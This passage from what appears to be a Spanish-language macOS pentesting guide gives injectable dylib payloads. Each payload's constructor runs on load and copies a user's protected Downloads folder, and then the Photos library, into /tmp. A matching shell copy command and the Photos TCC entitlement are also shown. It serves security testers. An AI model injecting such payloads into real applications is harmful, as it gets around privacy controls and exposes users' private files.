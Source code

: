 {% tabs %}
{% tab title="ObjetiveC" %}
Copia `$HOME/Downloads` a `/tmp/downloads`.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Downloads"];
NSString *tmpPhotosPath = @"/tmp/downloads";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copia `$HOME/Downloads` a `/tmp/downloads`.
```bash
cp -r "$HOME/Downloads" "/tmp/downloads"
```
{% endtab %}
{% endtabs %}

### Biblioteca de Fotos

* **Entitlement**: `com.apple.security.personal-information.photos-library`
* **TCC**: `kTCCServicePhotos`

{% tabs %}
{% tab title="ObjetiveC" %}
Copia `$HOME/Pictures/Photos Library.photoslibrary` a `/tmp/photos`.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

```